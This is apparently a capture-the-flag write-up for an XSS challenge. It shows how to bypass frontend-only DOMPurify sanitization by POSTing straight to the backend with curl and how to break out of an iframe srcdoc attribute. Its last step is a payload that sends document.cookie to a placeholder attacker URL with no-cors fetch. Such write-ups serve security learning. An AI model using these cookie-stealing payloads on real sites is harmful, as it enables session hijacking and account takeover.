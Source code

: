 # Refined Notes
> All my friends warned me about xss, so I created this note taking app that only accepts "refined" Notes.

## First look
### User
We are greeted with a simple note taking app. A basic textarea where we can write our notes and a button to save them.  
After creating a note we get redirected to a page where we can view it. The note itself is rendered inside of an iframe.
To get the id of our newly created note we can just look at the URL.  

### Adminbot
We are given a second URL: the adminbot. Here we can pass the id of a note for the admin to visit.  
This looks an awful lot like a xss challenge.

## Solution
As we realized earlier this is probably a xss challenge. Let's start by trying some basic xss payloads:

## Sanitation
Before we start trying to exploit the xss vulnerability we should take a look at the sanitation of the input.
We start by trying to pass a simple script tag:
```html
<script>alert(1)</script>
```
which get sanitized away.
By looking around the linked files we find a small JS script at `/static/script.js`:
```js
submit.addEventListener('click', (e) => {
    const purified = DOMPurify.sanitize(note.value);
    fetch("/", {
        method: "POST",
        body: purified
    }).then(response => response.text()).then((id) => {
        window.history.pushState({page: ''}, id, `/${id}`);
        submit.classList.add('hidden');
        note.classList.add('hidden');
        noteframe.classList.remove('hidden');
        noteframe.srcdoc = purified;
    });
});
```
As we can see the input is sanitized in the frontend, let's hope that the backend doesn't sanitize it again.
So using curl to send a POST request with the payload:
```sh
curl --location 'https://the-sound-of-silence--eurythmics-1333.ctf.kitctf.de' \
-H 'User-Agent: friendlyHuman' \
-H 'Content-Type: text/plain' \
--data '<img src=x onerror="alert(1)">'
```
we are lucky enough that the payload doesn't get sanitized again.
Taking a closer look at the iframe in which the note is rendered we see that the `srcdoc` property is set:
```html
<iframe srcdoc="<img src="x">">...</iframe>
```
This looks dangerous as if we can break out of the `srcdoc` property and add our own properties to the iframe.

### Breaking out of the srcdoc property
Let's try to just pass a double quote at the start of our note and add a simple onload property to the iframe:
```html
" onload="alert(1)
```
which yields the following iframe:
```html
<iframe ... srcdoc="" onload="alert(1)"></iframe>
```
and opens an alert box.

### CORS what else?
Now that we can execute JS in the context of the adminbot we can try to steal the admin's cookies by adding a simple fetch request to the iframe's onload event:
```
" onload="fetch('<some-url-where-we-can-view-logs>', {method: 'POST', body: JSON.stringify({cookie: document.cookie})})
```
But this doesn't work as the adminbot is hosted on a different domain and thus we can't send the request due to CORS.

###
To bypass the CORS policy we can set the mode of the fetch request to `no-cors`:
```
" onload="fetch('<some-url-where-we-can-view-logs>', {method: 'POST', body: JSON.stringify({cookie: document.cookie}), mode: 'no-cors'})
```
Now that we can steal the admin's cookies we can just send the id to the adminbot and get the flag.
